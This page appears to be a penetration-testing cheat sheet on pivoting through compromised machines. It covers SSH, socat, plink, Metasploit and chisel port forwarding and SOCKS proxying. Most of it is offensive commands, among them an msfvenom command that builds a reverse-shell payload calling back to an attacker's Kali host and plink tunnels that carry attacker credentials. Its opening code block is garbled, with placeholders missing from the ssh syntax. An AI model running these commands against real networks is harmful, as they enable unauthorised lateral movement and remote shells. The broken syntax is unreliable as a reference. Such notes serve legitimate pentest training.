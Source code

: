 # Pivoting

```
Local port forwardingForward local port to remote hostssh  -L ::​Remote port forwardingForward remote port to local hostssh  -R ::​Dynamic portssh -D  -p  
```

SOCAT

```
socat file:`tty`,raw,echo=0 tcp-listen:8989
```

PORT FORWARDING "port to port":

\----MSF---- Most platforms

Forward: Get meterpreter session on one of the dual homed machines portfwd add -l 4445 -p 4443 -r ip Use -R to make it reverse

\----SSH---- For Linux

\~C "if you already have an SSH session"

\-R 8081:ip:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)

:8081<------------:80 Now you can access 172.24.0.2:80, which you didn't have direct access to

\-L 8083:ip:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)

:8084<------------:8083<------------:XXXX run nc on port 8084, and if ip:8083 receives a reverse shell, you will get it

For reverse shell: msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell Run it on 2nd remote target to get a shell on Kali

Or if you didn't have an SSH session, then SSH to your Kali from target machine: On Kali: service ssh start "add a user, give it /bin/false in /etc/passwd" ssh - -R 12345:192.168.122.228:5986 [\[email protected\]](https://oscp.infosecsanyam.in/cdn-cgi/l/email-protection)

\---PLINK---- Just like SSH, on Windows service ssh start , and transfer /usr/share/windows-binaries/plink.exe to the target machine

On Target: plink.exe ip -P 22 -C -N -L 0.0.0.0:4445:ip:4443 -l KALIUSER -pw PASS

\---SOCAT---- For linux

Forward your 8083 to ip:443 ./socat TCP4-LISTEN:8083,fork TCP4:ip:443

\---CHISEL---- Most platforms

Remote static tunnels "port to port":

On Kali "reverse proxy listener": ./chisel server -p 8000 -reverse

General command: ./chisel client : L/R:\[YOUR LOCAL IP]:::

Remote tunnels "access IP:PORT you couldn't access before": On Target: ./chisel client ip:8000 R:127.0.0.1:8001:172.19.0.3:80

Local tunnels "listen on the target for something, and send it to us": On Target: ./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003

DYNAMIC "port to any": setup proxychains with socks5 on 127.0.0.1:1080 Or set up socks5 proxy on firefox For nmap use -Pn -sT or use tcp scanner in msf

\----MSF---- Most platforms

Get meterpreter session on one of the dual homed machines Auto route to ip (multi/manage/autoroute) Start socks proxy (auxiliary/server/socks4a)

\----SSH---- For Linux

\-D1080

\---PLINK--- Just like SSH, on Windows

On Target: plink.exe ip -P 22 -C -N -D 1080 -l KALIUSER -pw PASS

\---CHISEL---- Most platforms

On Kali: ./chisel server -p 8000 -reverse

On Target: ./chisel client ip:8000 R:8001:127.0.0.1:1080 ./chisel server -p 8001 --socks5

On Kali: ./chisel client 127.0.0.1:8001 socks
